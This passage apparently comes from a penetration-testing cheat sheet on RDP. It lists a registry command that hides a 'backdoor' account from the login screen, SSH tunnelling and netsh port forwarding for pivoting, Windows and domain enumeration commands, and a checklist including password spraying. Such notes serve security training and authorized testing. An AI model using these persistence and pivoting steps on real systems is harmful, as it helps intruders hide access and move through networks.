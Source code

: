 **Hide user from login screen:**
```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /v backdoor /t REG_DWORD /d 0 /f
```

## RDP Tunneling

**SSH tunnel for RDP:**
```bash
ssh -L 3389:192.168.1.20:3389 user@$IP
```

Then connect to localhost:
```bash
xfreerdp /v:localhost:3389 /u:username /p:password /cert:ignore
```

## Port Forwarding via RDP

**Once connected, forward ports:**
```cmd
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=internal_ip
```

## Post-Exploitation

**Initial enumeration:**
```cmd
systeminfo
whoami /all
net user
net localgroup administrators
ipconfig /all
netstat -an
arp -a
```

**Domain enumeration:**
```cmd
nltest /domain_trusts
net group "Domain Admins" /domain
```

## Enumeration Checklist

- [ ] Service discovery and version identification
- [ ] Vulnerability scanning (BlueKeep, MS12-020)
- [ ] Anonymous/guest access testing
- [ ] Default credentials testing
- [ ] Password spraying (careful with lockouts)
- [ ] Certificate analysis
- [ ] Encryption assessment
- [ ] Session enumeration (if access gained)
- [ ] Privilege escalation opportunities
